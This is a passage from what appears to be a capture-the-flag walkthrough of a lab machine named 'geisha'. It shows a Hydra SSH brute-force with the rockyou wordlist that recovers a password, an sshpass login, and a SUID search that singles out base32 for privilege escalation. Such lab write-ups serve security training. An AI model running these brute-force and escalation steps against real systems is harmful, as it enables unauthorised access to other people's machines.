 ~~~
kali@kali:~$ hydra -l geisha -P /usr/share/wordlists/rockyou.txt ssh://geisha.box -t 64
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-10-01 08:48:46
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking ssh://geisha.box:22/
[22][ssh] host: geisha.box   login: geisha   password: letmein
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 63 final worker threads did not complete until end.
[ERROR] 63 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-10-01 08:49:37
~~~

# SSH

We can now connect as `geisha` using SSH:

~~~
kali@kali:~$ sshpass -p "letmein" ssh geisha@geisha.box
Linux geisha 4.19.0-8-amd64 #1 SMP Debian 4.19.98-1+deb10u1 (2020-04-27) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Oct  1 02:48:07 2020 from 172.16.222.128
geisha@geisha:~$ id
uid=1000(geisha) gid=1000(geisha) groups=1000(geisha),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
geisha@geisha:~$ 
~~~

# Privilege escalation

Listing files owned by `root` with the `SUID` bit set, we find that `base32` is part of the list:

~~~
geisha@geisha:~$ find / -type f -user root -perm -u=s 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/umount
/usr/bin/su
/usr/bin/chsh
/usr/bin/base32 <------- interesting!
/usr/bin/sudo
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/mount
~~~
